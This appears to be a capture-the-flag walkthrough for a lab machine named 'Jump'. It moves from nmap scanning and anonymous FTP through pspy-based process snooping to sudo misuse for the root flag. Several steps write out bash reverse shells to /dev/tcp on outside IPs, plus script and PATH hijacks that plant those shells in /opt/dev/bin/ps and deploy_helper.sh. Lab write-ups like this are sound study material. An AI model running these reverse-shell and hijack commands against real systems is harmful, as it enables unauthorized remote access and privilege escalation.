#Jump

At first I scan with nmap 

```cmd
nmap -sC -sV ip
```



I login using anonymous mood 

```cmd
ftp anonoymous@ip
```



Not see anything in README.txt

so I crate a reverse file 

```cmd
nano rev.sh

#!/bin/bash
bash -i >& /dev/tcp/10.48.110.196/1234 0>&1

```

In another terminal listen netcat

```cmd
nc -lvnp 1234
``` 

Get flag



Now try to login to dev_user. First need to create pspy64 using python server

First download pspy64 

```cmd
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
```

and then create python server

```cmd
python3 -m http.server 8000
```

And then in victim machine download the pspy64 

```cmd
wget http://<ATTACKER_IP>:8000/pspy64
```
set the permission to use

```cmd
chmod +x ./pspy64
```

Run the file 

```cmd
./pspy64
```

found



fix the file 



use 
```cmd
nc -lvnp 4445
```

get this


And then search dev_user flag



For monitor_user flag

Check again with pspy64 

Find this 


Add 
```cmd
mkdir -p /opt/dev/bin
cat << 'EOF' > /opt/dev/bin/ps
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.48.106.242/4446 0>&1
EOF
```

Fix the permission
```cmd
chmod +x /opt/dev/bin/ps
ls -la /opt/dev/bin/ps
```



For ops_user



Enter this file and find this 

This mean if run deploy.sh also call to run this ./deploy_helper.sh



add the command 

```cmd
cat << 'EOF' > /opt/app/deploy_helper.sh
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.48.106.242/4448 0>&1
EOF
chmod +x /opt/app/deploy_helper.sh
```

Run like this 


and Listen 

```cmd
nc -lvnp 6060
```

Go to the home and find flag



For root flag

I found in root of less file 



ops_user can run without password and can see the rootflag.txt file 

and found the flag



